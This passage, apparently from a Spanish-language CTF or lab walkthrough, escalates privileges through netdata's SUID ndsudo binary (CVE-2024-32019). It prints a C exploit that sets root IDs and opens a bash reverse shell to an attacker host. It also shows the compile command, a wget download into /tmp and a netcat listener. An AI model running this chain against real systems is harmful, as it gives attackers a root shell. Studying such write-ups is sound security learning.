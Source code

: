 Veremos que aparece la version del `netdata`, si buscamos en internet dicha version las posibles vulnerabilidades que pueda tener, veremos esta pagina de aqui en la que se puede realizar una escala de privilegios.

URL = [Vuln netdata v1.45.2](https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93)

Si leemos veremos que hay un archivo el cual es el vulnerable llamado `ndsudo` del que hablan y si nos fijamos antes descubrimos ese binario en el `find`.

```
-rwsr-x--- 1 root netdata 200576 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
```

Vemos que tiene permisos `SUID`, por lo que tambien es bastante interesante, investigando un poco mas de que podemos hacer con dicho binario podremos ver el siguiente `PoC` en este repositorio.

URL = [CVE-2024-32019 - PoC](https://github.com/AliElKhatteb/CVE-2024-32019-POC)

Vemos que primero crea un `exploit.c` de esta forma en la maquina `host`:

```c
#include <unistd.h>  // for setuid, setgid, execl
#include <stddef.h>  // for NULL

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1", NULL);
    return 0;
}
```

Despues lo compila de esta forma con este nombre.

```shell
x86_64-linux-gnu-gcc -o nvme exploit.c -static
```

Echo esto abriremos un servidor de `python3` para pasarnos el binario vulnerable.

```shell
python3 -m http.server 80
```

En la maquina victima haremos esto para descargarnos dicho binario en la carpeta `/tmp`.

```shell
cd /tmp
wget http://<IP_ATTACKER>/nvme
```

Cuando lo tengamos le daremos permisos de ejecuccion:

```shell
chmod +x nvme
```

Ahora nos pondremos a la escucha como lo hayamos configurado en el `exploit.c`:

```shell
nc -lvnp <PORT>
```
